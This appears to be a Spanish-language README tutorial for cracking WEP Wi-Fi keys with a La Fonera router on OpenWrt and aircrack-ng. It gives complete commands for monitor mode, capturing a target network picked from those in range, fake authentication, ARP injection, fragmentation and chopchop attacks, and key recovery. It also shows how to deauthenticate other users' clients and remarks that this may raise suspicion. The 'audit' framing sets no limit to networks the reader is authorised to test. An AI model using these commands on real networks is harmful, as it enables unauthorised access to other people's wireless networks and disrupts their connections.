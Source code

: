 # Auditoría WiFi con OpenWrt y La Fonera

Pasos para poder usar [La Fonera](http://wiki.fon.com/wiki/La_Fonera) con el firmware [OpenWrt](http://kamikaze.openwrt.org/) KAMIKAZE 7.09 como herramienta de auditoría WiFi.

Este manual es para auditoría WEP. Para redes WPA consultar:

- <http://aircrack-ng.org/doku.php?id=aircrack-ng#wpa>
- <http://aircrack-ng.org/doku.php?id=cracking_wpa>
- <http://fonerahacks.com/index.php/Tutorials-and-Guides/Aircrack-Tips-and-Tricks.html> (parte del final)

[Licencia](LICENCIA.md)


## PASO 0: Restablecer configuración por defecto e instalar programas necesarios

Para restablecer la  configuración que viene por defecto en OpenWrt KAMIKAZE 7.09 dejar los siguientes archivos con este aspecto:

### /etc/config/network
	config interface loopback
		option ifname   lo
		option proto    static
		option ipaddr   127.0.0.1
		option netmask  255.0.0.0

	config interface lan
		option ifname   eth0
		option type     bridge
		option proto    static
		option ipaddr   192.168.0.1
		option netmask  255.255.255.0

	config interface wan
		option ifname   ath0
		option proto    dhcp

### /etc/config/wireless
	config wifi-device  wifi0
		option type     atheros
		option disabled 0

	config wifi-iface
		option device   wifi0
		option mode     sta
		option ssid     Fonera
		option encryption none

Para instalar paquetes necesarios para la auditoría

	opkg install aircrack-ng

Como el espacio de la Fonera es limitado, para guardar las capturas de los paquetes vamos a necesitar montar una unidad de red de un ordenador externo.

Para instalar paquetes necesarios para montar una unidad de red NFS (Linux)

	opkg install kmod-fs-nfs

Para instalar paquetes necesarios para montar una unidad de red SAMBA/CIFS (Windows y/o Linux)

	opkg install kmod-fs-cifs

## PASO 1: Elegir la red objetivo

Desactivar el modo "Managed" de la interfaz Wifi...

	wlanconfig ath0 destroy

_(también se podría haber hecho usando las herramientas de aircrack-ng:_ `airmon-ng stop ath0`_)_

... y activar el modo monitor

	wlanconfig ath0 create wlandev wifi0 wlanmode monitor

_(también se podría haber hecho usando las herramientas de aircrack-ng pero a mi ni me funciona:_ `airmon-ng start wifi0`_)_

Para ver todas las redes al alcance

	airodump-ng ath0

Para filtrar y mostrar solo las redes WEP usar

	airodump-ng ath0 -t WEP

De la lista, elegir una red objetivo y fijarse en el ESSID, el BSSID (la MAC del AP) y el canal. Además necesitarás saber la MAC de la tarjeta WiFi de la Fonera. En mi caso estos son los datos:

 En mi caso los datos son los siguientes:

	ESSID: WLAN_XX
	BSSID: AA:BB:CC:DD:FF:FF
	Canal: 1
	MAC de la Fonera: 00:11:22:33:44:55

__Reemplaza a lo largo del manual estos datos por los tuyos propios.__

Una vez conocidos los datos, dejar en una consola ejecutandose aireplay-ng el canal de la red objetivo:

	airodump-ng ath0 --channel 1

Esta consola nos informará en todo momento de los clientes conectados a la red objetivo.


## PASO 2: Capturar

Abrir una nueva consola y crear el punto de montaje para las capturas

	mkdir -p /mnt/capturas

Montar la unidad de red en dicho punto (el primer comando es para NFS y el segundo para SAMBA/CIFS)

	mount 192.168.0.5:/share /mnt/capturas -t nfs -o nolock
	mount //192.168.0.5/share /mnt/capturas -o username=usuario,password=contrasena

Comenzamos a capturar

	cd /mnt/capturas
	airodump-ng --channel 1 --bssid AA:BB:CC:DD:FF:FF -w output ath0

Esta consola nos informará en todo del estado de la captura.


## PASO 3: Asociarnos con el AP objetivo

Para poder inyectar paquetes antes tenemos que asociarnos con el AP. Usaremos aireplay para hacer una una autenticación falsa.

Desde otra consola ejecutar

	aireplay-ng -1 0 -e WLAN_XX -a AA:BB:CC:DD:FF:FF -h 00:11:22:33:44:55 ath0

Si tiene éxito nos sale un mensaje __"Association successful :-)"__ y además podemos ver que en la consola en la que se está ejecutando airodump aparece nuestra MAC como conectada.

Si no tiene éxito reintentar con este comando

	aireplay-ng -1 6000 -o 1 -q 90 -e WLAN_XX -a AA:BB:CC:DD:FF:FF -h 00:11:22:33:44:55 ath0

## PASO 4: Inyectar paquetes

Activar el modo de inyección de paquetes ARP en la misma consola que el paso anterior

	aireplay-ng -3 -b AA:BB:CC:DD:FF:FF -h 00:11:22:33:44:55 ath0

Estando en este modo, tan pronto como se reciba un paquete ARP, aireplay lo repetirá y el campo DATA de airodump aumentará.

Si existe in cliente conectado (a parte de nosotros) en el AP objetivo, podemos desconectarlo para forzar que se produzca el paquete ARP (lo cual puede levantar sospechas si el usuario cliente está delante del ordenador). Para desconectar a un cliente existente, desde otra consola ejecutar

	aireplay-ng -0 5 -a AA:BB:CC:DD:FF:FF -c MAC_DEL_CLIENTE ath0


Si no existe un cliente conectado hay dos ataques más que podemos usar para provocar el paquete ARP: el de "fragmentación" y el "chopchop". Con que uno solo de los dos tenga éxito es suficiente.

Para hacer el ataque de fragmentación:
	aireplay-ng -5 -b AA:BB:CC:DD:FF:FF -h 00:11:22:33:44:55 ath0

Para hacer el ataque de chopchop:
	aireplay-ng -4 -b AA:BB:CC:DD:FF:FF -h 00:11:22:33:44:55 ath0

La salida de cualquiera de los dos ataques, si tienen éxito, será un archivo "fragment-date.xor" que usaremos con el comando packetforge-ng para generar un archivo "arp-request" que contiene el paquete ARP:

	packetforge-ng -0 -a AA:BB:CC:DD:FF:FF -h 00:11:22:33:44:55 -k 255.255.255.255 -l 255.255.255.255 -y fragment-date.xor -w arp-request

Una vez tenemos el  archivo "arp-request" lo reinyectamos al AP con aireplay-ng:

	aireplay-ng -2 -r arp-request ath0

Cuando el campo DATA llegue a 40.000 paquetes (aunque se recomienda esperar a 250.000 para aumentar las posibilidades de éxito) detener la captura.

## PASO 5: Averiguar la clave

Una vez tenemos la captura, desde un ordenador rápido ejecutar aircrack para buscar la clave:

Para el método PTW (recomendado)

	aircrack-ng -z output*.cap

__(Un comando equivalente sería:_ `aircrack-ptw  output*.cap`_)_

Si no la obtenemos podemos usar el método FMS/Korek que es más lento

	aircrack-ng output*.cap

__NOTA:__ Para este método podríamos haber pasado la opción -i a airodump-ng en el PASO 2 y así las capturas ocupan menos espacio en disco pero dejan de ser válidas para usar el método PTW o para auditar WPA/WPA2.
